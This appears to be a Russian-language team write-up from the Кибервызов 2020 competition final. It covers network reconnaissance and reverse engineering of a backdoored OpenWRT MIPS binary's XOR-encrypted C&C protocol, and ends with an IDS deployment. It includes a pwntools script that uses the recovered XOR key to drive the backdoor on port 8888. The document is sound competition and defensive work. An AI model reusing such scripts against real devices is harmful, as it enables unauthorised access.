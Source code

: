 # Кибервызов 2020
Решение для финала Кибервызов 2020
От команды `картинг по ру` - @kinjalik @djalilkhisaliev @gavt45 @gleb270

# Первичное исследование сетевой инфраструктуры

Подключились по SSH по выданным данным для входа. 
Запустили анализ с помощью `nmap` и `arp` и нашли 3 ip с интересными портами и проанализировав дампы трафика, определили, что роутеры находятся по адресам: 10.0.8.12 , 10.0.8.13 , 10.0.8.14 , а атакующий находится по адресу 192.168.1.2

# Обратная разработка сетевых протоколов

Чтобы найти уязвимые файлы, мы скачали оригинальный образ прошивок OpenWRT и с помощью `diff` нашли отличающиеся файлы

## 1. MIPS

Файл находился по пути `/usr/bin/sign`
 
Так же 10.0.8.13 биндится на 8888, тем самым создается подключение
192.168.1.2 сюда создается коннект c 10.0.8.13 на порт 5555
Найден ключ XOR: 
03 22 a7 14 be c4 10 2d f1 37 c7 1e 68 49 23 67

### Код для эксплойта:
```
def xor(s1,s2):
        return ''.join(chr(ord(a) ^ ord(b)) for a,b in zip(s1,s2))

from pwn import *

r = remote('10.0.8.13', 8888)

k = unhexlify('03 22 a7 14 be c4 10 2d f1 37 c7 1e 68 49 23 67'.replace(' ',''))

IV = b'\x33\x23\x00\x1a'
print(IV)
init_msg = IV+b'\x7e\x2a'+IV+b'\x01\x01\x01\x01'
our_part = IV+b'\x01\x01\x01\x01'
print(init_msg)
enc_init_msg = xor(init_msg, k)
info(init_msg)
info(enc_init_msg)

r.send(enc_init_msg)

their_part = xor(r.recv(), k)

sess_key = our_part+their_part

info("Enc out: "+str(xor('\xde\xad',sess_key)[:2]))

r.send(xor('\x55\xfa',sess_key)[:2])

print(xor(r.recv(), sess_key))

```



Перехваченнный зашифрованный траффик на C&C сервер. Расшифровывается ксором .
`2006391a293d1101072b3b1d2f0031172e38012520043a0d21130a3c1c221b311d3934251c15043e3012323f1b150603343105003e100e092a29302e0a263e1e203b1d26261a323a32022018291523080529291f0921193c3b0006161b072c3e241a32281b213f27210d03222d0034102d242a0f2d0330360300330f263d07200a1504323a3d0c2619082a3f0829083b392d0b0c060920191904380529162204282a39032f1d03362b3a34172415371b313a171a0f3a1203261c2c1016022e133e081b0e313e10131c050c1e3f20313c3c0a03182332091d1e0315003521040836`

should_be_not_return_1 сравнивает dect_buffer с CE FA
Первые два байта дешифрованного сообщения должны быть CE и FA. 

ОПИСАНИЕ:
Описание протокола: 
Сначала C&C сервер(192.168.1.2) отсылает 14 байт в которых содержатся 2 байта команды на инициализацию и 8 байт IV. На основе этого ключа и текущего времени(рандом) клиент(роутер) генерирует вторую половину сессионного ключа(тоже 8 байт), 
которые отсылаеются на сервер. Сервер складывает то, что принял и IV и получает сессионый ключ. Далее все команды и ответы шифруются именно им. В качестве шифрования используется XOR. 

Открыли файл в ghidra. 25 строка создает дескриптор сокета, который биндит порт 8888(sStack44). 
Если порт был успешно забинден, то запускается бесконечный цикл(30 строка), которая постоянно прослушывает данный порт. 

Перейдем к описанию функции parse_command, но перед этим заметим, что бесконечный цикл завершается только в случае, если parse_command возвратит какие-либо значения, кроме единицы. Условия в 15 строке выполнится, если переменная cStack12, которая изначально имеет значение 
'\0' будет иметь значение '\x01'. Она примет значение '\x01' только когда функция should_not_return_1 сгенерирует сессионный ключ.
#### main
![](https://i.imgur.com/EHWi1C2.png)

#### should_not_return_1
![](https://i.imgur.com/FkXFzRr.png) 

#### parse_command
![](https://i.imgur.com/yMpvIbA.png)

# Реализация средств защиты информации
В целях обнаруженя и предотвращения последующих вторжений была развернута IDS-систем. С ее помощью производится анализ трафика, нахождение пакетов с подозрительными сигнатурами и последующее реагирование на них (в виде оповещения администратору или полной блокировки).

Использемое программное обеспечение:
- `Surricat` -- производит сбор, анализ и сохранение дампа трафика
- `SSHFS` -- обеспечивает доступ сервера IDS к дампу трафика на машине, производящей сбор
- `logstash` и `filebeat` -- централизованный сбор и выгрузка лог-инфорации (в данный момент применяется только для одного источника информации, но имеется перспектива масштабирования)
- `elasticsearch` -- система управления информацией, предоставляет остальным компонентам интерфейсы для доступа и/или добавления данных
- `Kibana` -- просмотр лог-информации, предоставление к ней интерактивного доступа
